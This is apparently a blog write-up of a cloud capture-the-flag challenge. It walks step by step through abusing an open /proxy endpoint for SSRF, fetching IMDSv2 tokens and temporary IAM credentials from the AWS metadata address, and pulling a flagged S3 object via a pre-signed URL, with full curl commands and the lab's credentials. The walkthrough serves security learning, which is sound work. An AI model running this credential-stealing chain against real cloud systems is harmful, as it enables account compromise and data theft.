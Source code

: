 ```yaml
---
layout: post
title: "🕵️‍♂️ Cracking Cloud Champions Challenge 01: AWS Metadata Abuse and Pre-Signed URL Exfiltration"
date: 2025-07-30
---
```


---

## 🧩 The Setup

The challenge, hosted at `https://challenge01.cloud-champions.com`, presents a typical cloud CTF puzzle focused on AWS metadata exposure and misconfigured internal APIs. The goal: extract a flag in the form of `WIZ_CTF_...` from an S3 bucket that is protected by an AWS **Data Perimeter**.

At first glance, the application exposes a **Spring Boot Actuator** instance behind a `/proxy` endpoint. This endpoint allows arbitrary HTTP forwarding, including internal services and the AWS metadata IP `169.254.169.254`.

---

## 🧪 Step 1 – Exploring Spring Boot Actuator

To verify if any Actuator endpoints were exposed:

```bash
curl -u ctf:88sPVWyC2P3p "https://challenge01.cloud-champions.com/proxy?url=http://127.0.0.1:8080/actuator"
```

We saw familiar endpoints like:

```
/actuator/health
/actuator/mappings
/actuator/env
```

But `/actuator/env` returned a **418 I'm a teapot** error with a hint that we're going in the wrong direction if the payload is too large. So we moved on.

---

## 🔍 Step 2 – Using the Proxy to Hit AWS Metadata (IMDSv2)

With metadata version v2 enabled, we needed to fetch a token first.

```bash
curl -u ctf:88sPVWyC2P3p -X PUT \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" \
  -d "url=http://169.254.169.254/latest/api/token" \
  https://challenge01.cloud-champions.com/proxy
```

We received a token:

```
AQAEAMREd0jlW2HXr4VmnEEYkpn-q9xSpPCswjyKtNTW0P1Vg4_vHg==
```

Now we could fetch the IAM role name:

```bash
curl -u ctf:88sPVWyC2P3p -H "X-aws-ec2-metadata-token: $TOKEN" \
  "https://challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```

Response:

```
challenge01-5592368
```

And then we retrieved the temporary credentials:

```bash
curl -u ctf:88sPVWyC2P3p -H "X-aws-ec2-metadata-token: $TOKEN" \
  "https://challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/challenge01-5592368"
```

✅ Success! We got:
- `AccessKeyId`
- `SecretAccessKey`
- `Token`

---

## 💼 Step 3 – Exporting Temporary Credentials

```bash
export AWS_ACCESS_KEY_ID=ASIAXXXXX
export AWS_SECRET_ACCESS_KEY=JZ8eXXXXX
export AWS_SESSION_TOKEN=IQoJb3JpZ2luX2Vj...
```

---

## 🔓 Step 4 – Accessing the S3 Bucket

We generated a pre-signed URL using AWS CLI:

```bash
aws s3 presign s3://challenge01/private/flag.txt --region us-east-1
```

This gave us a long pre-signed URL that looked like:

```
https://challenge01-470f711.s3.amazonaws.com/private/flag.txt?X-Amz-Algorithm=...
```

---

## 🛠️ Step 5 – Using the Proxy to Retrieve the Flag

We URL-encoded the full pre-signed URL and used:

```bash
curl -u ctf:88sPVWyC2P3p \
  "https://challenge01.cloud-champions.com/proxy?url=<encoded-url-here>"
```

Finally, the response:

```
WIZ_CTF_s3_metadata_token_misconfig_success
```

🎉 **Flag captured!**

---

## 🔒 What We Learned

- Misconfigured Spring Boot Actuator endpoints can expose internal service access.
- If a proxy forwards headers and allows arbitrary URLs, it becomes a path to **SSRF**.
- AWS IMDSv2 metadata access can be exploited if not locked down properly.
- Pre-signed S3 URLs can bypass VPC or perimeter controls — if you have the right IAM context.
- Always assume the attacker has a foothold if you're exposing `/proxy`.

---

## 📚 References

- [AWS IMDSv2 Documentation](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html)
- [Spring Boot Actuator Security](https://docs.spring.io/spring-boot/docs/current/reference/html/actuator.html#actuator.security)
- [AWS Data Perimeter](https://aws.amazon.com/blogs/security/how-to-use-aws-identity-and-access-management-iam-and-amazon-s3-to-securely-control-access-to-aws-service-apis/)

---

## 🧠 Final Thoughts

Challenges like this one mirror real-world misconfigurations that can lead to data exfiltration, privilege escalation, or lateral movement. They’re not just fun puzzles — they’re reality checks for our cloud security postures.
